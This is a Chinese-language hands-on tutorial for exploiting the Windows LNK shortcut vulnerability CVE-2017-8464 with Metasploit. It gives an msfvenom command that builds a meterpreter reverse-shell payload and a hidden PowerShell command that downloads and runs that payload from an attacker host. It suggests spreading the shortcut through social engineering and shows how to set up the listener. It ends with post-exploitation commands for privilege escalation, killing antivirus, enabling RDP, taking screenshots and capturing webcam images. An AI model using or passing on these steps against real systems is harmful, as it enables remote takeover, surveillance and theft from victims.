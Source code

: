 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在**解析快捷方式**时存在**远程执行任意代码**的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，**LNK**是windows系统内应用程序**快捷方式**文件的文件**类型后缀名**。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：`msfconsole`

开始利用：

#### 1、使用MSF创建一个后门

msf内输入：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.70.3 lport=4456 -f psh-reflection>/var/www/html/link.ps1
```



#### 2、在kali下开启apache2

终端内输入：`service apache2 start`

#### 3、通过社会学进行快捷方式传播

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.70.3/link.ps1');test.ps1"
```

![1641972171811](https://image.201068.xyz/assets/1641972171811.png) 

![1641972183309](https://image.201068.xyz/assets/1641972183309.png)

#### 4 回到MSF终端配置监听

msf内输入：  

`use exploit/multi/handler`

#### 5 配置payload

`set payload windows/x64/meterpreter/reverse_tcp`

![1641972198597](https://image.201068.xyz/assets/1641972198597.png)

msf中输入 ： `show options`   配置payload

![1641972211876](https://image.201068.xyz/assets/1641972211876.png)

设置 LHOST  和  LPORT

maf中输入：

 `set lhost 192.168.70.3` 设置 LHOST

`set lport 4456` 设置 LPORT

![1641972223277](https://image.201068.xyz/assets/1641972223277.png)

最后在 输入 `show options` 查看配置是否生效

![1641972233527](https://image.201068.xyz/assets/1641972233527.png)

#### 6、执行监听

msf中输入 ： `run` 或者  `exploit`

![1641972244295](https://image.201068.xyz/assets/1641972244295.png)

进入靶机**执行**我们在靶机上创建的**快捷方式**

![1641972183309](https://image.201068.xyz/assets/1641972183309.png)

稍等片刻获取到meterpreter

![1641972268406](https://image.201068.xyz/assets/1641972268406.png)

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![1641972283719](https://image.201068.xyz/assets/1641972283719.png)

发现shell显示有**乱码**

linux和windows显示编码不一样。

**修改显示编码**，shell内输入  `chcp 65001`

![1641972295944](https://image.201068.xyz/assets/1641972295944.png)

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：`cd c:/users/mb/desktop`

查看当前目录文件：`dir`

![1641972307789](https://image.201068.xyz/assets/1641972307789.png)

2 更多操作

1. 查看进程：ps

2. 查看当前进程号：getpid

3. 查看系统信息：sysinfo

4. 查看目标机是否为虚拟机：run post/windows/gather/checkvm

5. 查看完整网络设置：route

6. 查看当前权限：getuid

7. 自动提权：getsystem

8. 关闭杀毒软件：run post/windows/manage/killav

9. 启动远程桌面协议：run post/windows/manage/enable_rdp

10. 列举当前登录的用户：

    run post/windows/gather/enum_logged_on_users

11. 查看当前应用程序：run post/windows/gather/enum_applications

12. 抓取目标机的屏幕截图：load espia ； screengrab

13. 抓取摄像头的照片：webcam_snap

14. 查看当前处于目标机的那个目录：pwd

15. 查看当前目录：getlwd